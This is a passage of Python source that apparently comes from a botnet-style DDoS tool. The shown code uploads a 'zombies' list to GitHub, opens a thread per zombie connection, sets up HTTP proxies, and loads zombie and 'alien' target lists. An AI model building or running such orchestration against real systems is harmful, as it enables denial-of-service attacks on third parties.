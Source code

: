         # upload list of [Zombies] to GitHub server [20/01/2020 OK!]
        if options.upload_github:
            try:
                self.banner()
                print("\n[AI] Uploading 'zombies' to [GitHub] is simple. Follow the next steps:\n")
                print('='*22 + '\n')
                upload_github_list = self.uploading_github_list()
            except Exception as e:
                print(("[Error] [AI] Something wrong uploading! "+str(e)+" -> [Exiting!]\n"))
                if DEBUG == True:
                    traceback.print_exc()
                return #sys.exit(2)

    # starting new zombie thread
    def connect_zombies(self, zombie):
        z=Zombie(self, zombie)
        t = threading.Thread(target=z.connect, name=zombie)
        t.start()

    # single connection handling
    def connect_zombie(self, zombie):
        z=Zombie(self,zombie)
        return z.connect()

    def extract_proxy(self, proxy):
        sep = ":"
        proxy_ip = proxy.rsplit(sep, 1)[0]
        if proxy_ip.startswith('http://'):
            proxy_ip = proxy_ip.replace('http://', '')
        elif proxy_ip.startswith('https://'):
            proxy_ip = proxy_ip.replace('https://', '')
        if proxy_ip == '127.0.0.1': # working by using 'localhost' as http proxy (privoxy, ...)
            proxy_ip = 'localhost'
        proxy_port = proxy.rsplit(sep, 1)[1]
        proxy_url = proxy_ip + ":" + proxy_port # ex: localhost:8118
        return proxy_url

    def proxy_transport(self, proxy):
        proxy_url = self.extract_proxy(proxy)
        proxy = urllib.request.ProxyHandler({'https': proxy_url})
        opener = urllib.request.build_opener(proxy)
        urllib.request.install_opener(opener)

    def check_mothership_chargo(self):
        f = open(self.zombies_file)
        self.zombies = f.readlines()
        self.zombies = [zombie.replace('\n', '') for zombie in self.zombies]
        self.list_zombies = []
        for zombie in self.zombies:
            t = urlparse(zombie)
            name_zombie = t.netloc
            if name_zombie == "":
                name_zombie = zombie
            self.list_zombies.append(name_zombie)
        self.num_zombies = str(len(self.zombies))
        f.close()
        f = open(self.aliens_file)
        self.aliens = f.readlines()
        self.aliens = [alien.replace('\n', '') for alien in self.aliens]
        self.list_aliens = []